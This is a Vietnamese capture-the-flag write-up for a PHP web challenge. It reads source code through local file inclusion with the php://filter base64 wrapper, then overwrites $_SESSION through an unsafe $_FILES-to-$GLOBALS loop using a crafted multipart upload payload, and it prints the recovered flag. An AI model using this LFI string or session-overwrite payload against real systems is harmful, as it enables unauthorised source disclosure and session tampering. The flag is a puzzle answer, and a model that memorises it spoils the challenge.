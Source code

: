 # Opening
Bài này không hề khó nhưng mọi người phải tinh ý 1 chút.

# Step 1: GET SOURCE
Đầu tiên lấy source của các trang home, upload, GiFt2 bằng LFI kết hợp với php wrapper:
php://filter/convert.base64-encode/resource=xxx

# Step 2: Know the vul
Ban đầu mình nghĩ chắc bài này là upload insecure file tuy nhiên đọc code lại không hề thấy lỗ nào để mà đục. Đọc kỹ hơn nữa mình nhân ra có một đoạn code rất vô lý nằm trong hàm `Upload_Single_File`.
```global $target_file;
	foreach ($_FILES as $key => $value)
	{
		$GLOBALS[$key] = $value;
	}
  ```
Đoạn này dùng để gán giá trị của một phần tử của biến $GLOBAL mà theo đúng cách hoạt động của nó sẽ là `$GLOBAL['filename']='xxx.png'`. Tuy nhiên ở đây giá trị đầu vào không hề được kiểm soát nên ta có thể thay đổi giá trị của những phần tử sẵn có bên trong biến $GLOBAL đặc biệt trong đó có $_SESSION. Thêm nữa tại home.php có đoạn gán session như sau `><?php $_SESSION['name']="children";?>`. Cộng thêm việc đọc hiểu mô tả của đề thì mình chắc chắn giá trị này phải đổi thành Nicolaus

# Step 3: Exploit
Nhớ đoạn code vô lý chứ nó nằm trước đoạn kiểm tra upload file nên dù có upload file thành công hay không cũng không quan trọng. so let's begin:
Để thay đổi được giá trị bên trong $_SESSION thì chúng ta cần một đoạn như này `$GLOBAL['_SESSION']='abcxyz'` vậy nên payload se trông như sau:
```
-----------------------------180251837238646225392010562464
Content-Disposition: form-data; name="target_file"; filename="123"
Content-Type: text/plain

123
-----------------------------180251837238646225392010562464
Content-Disposition: form-data; name="_SESSION"; filename="Nikolaus"
Content-Type: text/plain

Nikolaus
-----------------------------180251837238646225392010562464
Content-Disposition: form-data; name="submit"

Upload
-----------------------------180251837238646225392010562464--
'''
```
và đây là kết quả: 
```
PS C:\Users\hentai> & python c:/Users/hentai/OneDrive/Desktop/CTF/PIS/noelv3/santa3.py
[+] Gift3:ChristCTF{merry_christmas_2020!!!h4d35w!7h10v3} 
PS C:\Users\hentai> 
```

# thank HADES với vài chốt khá là hay  shout-out for hades
